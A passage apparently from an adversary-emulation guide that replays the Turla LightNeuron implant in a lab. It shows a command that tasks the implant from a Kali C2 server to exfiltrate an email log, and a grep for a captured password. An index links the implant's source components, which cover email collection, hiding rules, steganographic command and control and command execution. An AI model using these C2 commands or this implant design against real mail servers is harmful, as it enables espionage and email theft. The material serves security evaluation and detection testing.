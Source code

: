 :arrow_right: Return to the Kali C2 server lower terminal window. Task the LightNeuron implant to exfiltrate the email log file:
```bash
./evalsC2client.py --set-task info@nk.local '3 | 0'
```

* The file contents will be logged by the control server.
:heavy_exclamation_mark: Verify that exfil was logged by the control server by checking the terminal window with the server output or by checking the server log file. The logs should contain the password Egle sent to Zilvinas:
```bash
grep 'dfsbH%T5RWf3bwq3aeGR$3%' /opt/day2/turla/Resources/control_server/logs.txt
```

---

### :moyai: Source Code

* [Installation Script](msiex.ps1)
* [LightNeuron](LightNeuron.)
  * [Masquerading legitimate file name](winmail.dat)
* [Transport Agent](ConnectionFilteringAgent.cs)
  * [Remote Email Collection](ConnectionFilteringAgent.cs#L56)
  * [Automated Collection](ConnectionFilteringAgent.cs#L100)
  * [Email Hiding Rules](ConnectionFilteringAgent.cs#L162)
* [Companion DLL](CompanionDLL.)
  * [Check message against rule file](exdbdata.cpp#L307)
  * [Data Staging/Automated Collection](exdbdata.cpp#L196)
  * [Analyze attachment for data from C2](exdbdata.cpp#L98)
  * [Send message back to C2 server over email](exdbdata.cpp#L130)
* [Steganography](stego.cpp)
  * [Decode attachment data from base64](stego.cpp#L437)
  * [Check signature in image](stego.cpp#L136)
  * [Decrypt data in image](stego.cpp#L99)
  * [Extract task from image](stego.cpp#L302)
  * [Execute commands: Cmd ID 3](stego.cpp#L232)
  * [Execute commands: Cmd ID 5](stego.cpp#L263)
  * [Encrypt result of command in image](stego.cpp#L51)
  * [Hide result of command in image](stego.cpp#L184)
  * [Encode data in base64](stego.cpp#L499)

### :microscope: Cited Intelligence

* <https://www.welivesecurity.com/wp-content/uploads/2019/05/ESET-LightNeuron.pdf>
